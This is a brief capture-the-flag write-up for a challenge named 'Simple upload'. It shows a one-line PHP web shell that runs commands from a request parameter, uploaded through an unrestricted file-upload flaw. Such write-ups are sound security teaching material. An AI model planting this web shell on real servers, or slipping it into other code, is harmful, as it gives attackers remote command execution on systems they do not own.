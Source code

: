 # Simple upload
Author: [Marin Radu](https://github.com/ChronosPK)

<br>

## Description
```
Upload a php shell with an unrestricted file upload.
```

<br>

## Requirements
- File upload vulnerability
- PHP code execution

<br>

## Solve
The web application only has 2 requirements for uploaded files:
- they must not have the same name
- they should not be bigger than 500B

All files are removed from the "uploads" directory every 5 minutes.

Upload a PHP web shell and execute commands.

[shell.php](./solve/shell.php):
```php
<?php
echo system($_REQUEST["cmd"]);
?>
```

The file has a new name after upload, but the application shows it to us.

<img src="./solve/upload.jpg" width="1000">
